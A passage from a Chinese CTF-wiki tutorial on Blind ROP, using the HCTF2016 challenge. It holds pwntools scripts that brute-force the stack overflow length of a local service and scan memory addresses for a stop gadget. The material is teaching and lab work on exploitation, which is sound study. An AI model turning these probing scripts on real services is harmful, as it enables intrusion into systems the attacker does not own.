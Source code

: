 ### 例子

這裏我們以 [HCTF2016的出題人失蹤了](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/stackoverflow/brop/hctf2016-brop) 爲例。基本思路如下

#### 確定棧溢出長度

```python
def getbufferflow_length():
    i = 1
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('WelCome my friend,Do you know password?\n')
            sh.send(i * 'a')
            output = sh.recv()
            sh.close()
            if not output.startswith('No password'):
                return i - 1
            else:
                i += 1
        except EOFError:
            sh.close()
            return i - 1
```

根據上面，我們可以確定，棧溢出的長度爲72。同時，根據回顯信息可以發現程序並沒有開啓canary保護，否則，就會有相應的報錯內容。所以我們不需要執行stack reading。

#### 尋找 stop gadgets

尋找過程如下

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

這裏我們直接嘗試64位程序沒有開啓PIE的情況，因爲一般是這個樣子的，，，如果開啓了，，那就按照開啓了的方法做，，結果發現了不少，，我選擇了一個貌似返回到源程序中的地址

```text
one success stop gadget addr: 0x4006b6
```
